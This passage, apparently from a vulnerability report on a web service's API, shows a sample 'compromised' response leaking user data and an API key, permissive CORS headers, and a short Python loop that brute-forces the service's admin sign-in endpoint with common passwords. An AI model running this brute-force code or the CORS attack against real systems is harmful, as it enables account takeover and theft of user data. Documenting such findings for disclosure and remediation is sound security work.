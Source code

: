 ### Actual Response (Compromised)
```json
{
  "id": "user_12345",
  "email": "victim@example.com",
  "name": "John Doe",
  "walletAddress": "DYw8jCTfwHQ7cKm5xR3nL9pV2sF6tN4aE8bG1hJ7kM3q",
  "balance": "1250.00 USDC",
  "apiKey": "sk_live_abc123xyz789",
  "projects": [...]
}
```

### HTTP Headers
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: *
```

### Impact Demonstration
✅ **Successfully bypassed same-origin policy**
✅ **Stolen user credentials and API keys**
✅ **Cross-origin data exfiltration successful**

### Real-World Applicability
- Mass user data theft via phishing
- API key harvesting
- Session hijacking
- **Estimated user impact**: Thousands of users at risk

---

## Test 5: Brute Force Attack (MEDIUM)

### Attack Vector
No rate limiting on authentication endpoints

### Exploitation Steps
```python
# Automated brute force
for password in common_passwords:
    response = requests.post(
        'https://aixblock.com/v1/authentication/sign-in',
        json={'email': 'admin@aixblock.com', 'password': password}
    )
    if response.status_code == 200:
        print(f'Password found: {password}')
```
